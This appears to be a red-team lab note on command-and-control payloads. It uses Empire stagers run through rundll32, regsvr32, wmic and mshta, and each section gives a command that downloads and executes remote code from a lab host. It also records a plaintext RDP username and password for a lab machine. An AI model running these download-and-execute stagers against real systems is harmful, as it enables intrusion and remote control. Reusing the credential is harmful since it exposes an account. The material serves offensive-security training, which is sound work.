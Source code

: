 #### Tags: [[12 - Command and Control (TA0011)]]

## Objectives

    Create different payloads for familiarity
    Test payloads from the range
    Use additional tools to enhance payloads
## Overview
This lab will focus on creating multiple payloads and then testing them in the student range. We will use various methods to gain familiarity with different techniques.

### Launch [[Empire C2#Create an Empire listener]] 

## [[PowerShell Stager with rundll32.exe]]

#### *Payload:* Create Powershell Stager

![[Pasted image 20240317180009.png]]

#### *Execution Technique:* 
```markdown
# Executing Stager with rundll32.exe
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://10.254.252.3:8000/setup.ps1');")
```

----
## [[SCT stager and execute with regsvr32.exe]]

#### *Payload:* Create a SCT stager
`xfreerdp +clipboard /cert-ignore /u:Gareth.Kilgallen /p:Hu825meapvsAq#Rx /v:wk01.draconem.corp`

![[Pasted image 20240317175954.png]]
#### *Execution Technique:* 
```markdown
# Executing Stager with regsvr32.exe
regsvr32 /s /n /u /i:http://10.254.252.3:8000/config.sct scrobj.dll
```

---
## [[WMIC stager and execute with wmic]]

#### *Payload:* Create WMIC Stager

![[Pasted image 20240317175936.png]]

#### *Execution Technique:* 
```markdown
# Executing Stager with wmic
wget http://10.254.252.2:8000/update.xsl -o update.xsl
wmic os get /format:"update.xsl"
```

---

## [[HTA stager and execute with mshta.exe]]

#### *Payload:* Create HTA Stager

![[Pasted image 20240317175917.png]]
#### *Execution Technique:* 
```markdown
# Executing Stager with mshta.exe
mshta.exe http://10.254.252.3:8000/app.hta
```

----
### Executing Techniques

Link to Heading
and create 2 - Payloads & Execution Tech 

#### Notes | Bonus
- Create Links
- Bonus RT Sections 
	- Learn to deploy payload without RDP 
	- Learn to leverage Cobalt strike for payload creation

## Conclusion

